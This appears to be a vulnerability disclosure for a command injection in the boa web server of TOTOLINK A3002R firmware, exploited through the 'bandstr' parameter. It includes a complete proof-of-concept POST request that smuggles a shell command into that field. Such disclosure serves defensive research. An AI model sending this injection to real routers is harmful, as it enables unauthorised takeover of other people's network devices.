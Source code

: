 # totolink_A3002R_remote_command_exec
**description**: a Remote-Command-Execution  in /bin/boa on totolink A3002R-V4.0.0-B20230531.1404 via parameter "bandstr"


## Firmware
**brand**:totolink   

**product**:A3002R-V4 

**version**:V4.0.0-B20230531.1404

The firmware can be downloaded from this [website][1]

## detail
**addr**:0045a2a4

**function**:FUN_0045a1f8

Using ghidra we can know that the post parameter "bandstr" will be sprintf as the second input parameter and result the command injection and the realte action is  formMapDelDevice
![alt text](./img/action.png)


![alt text](./img/image-2.png)


# poc
burp suite change the packet as follow
```
POST /boafrm/formMapDelDevice HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 163

Origin: http://192.168.0.1

Connection: close

Referer: http://192.168.0.1/multi_ap_popup_client_details.htm

Upgrade-Insecure-Requests: 1





sessionCheck=eac3d25a37ff88c5d813f312586baec9&submit-url=%2Fmulti_ap_popup_client_details.htm&macstr=123&clientoff=no&bandstr=123;echo%20123456%20> /tmp/rec1.txt
```
![alt text](./img/image.png)

[1]:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/258/ids/36.html
